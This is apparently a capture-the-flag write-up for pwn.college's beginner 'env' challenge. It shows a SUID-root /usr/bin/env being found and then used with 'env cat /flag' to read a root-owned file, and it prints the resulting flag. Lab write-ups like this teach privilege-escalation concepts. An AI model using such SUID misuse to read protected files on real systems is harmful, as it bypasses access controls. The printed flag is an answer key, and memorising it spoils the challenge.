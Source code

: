 # Challenge Name: env
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/env`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/env
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/env
```

-The `s` in `-rws` indicates it's a SUID binary.
-`env` runs with **root privileges**.

## 🚀 Exploitation

The `env` command is used to:

- Run a command in a modified or clean environment.

- Set environment variables temporarily for that command.

- Find executables in your $PATH in a portable way (e.g., #!/usr/bin/env python3 in scripts).

So we can simply cat the /flag using env:

```bash
env cat /flag
```

Output:
```
pwn.college{ETC1sCoTJ7pTOpUVmC6XlNknnz7.dZjNxwSM0IzMyEzW}
```




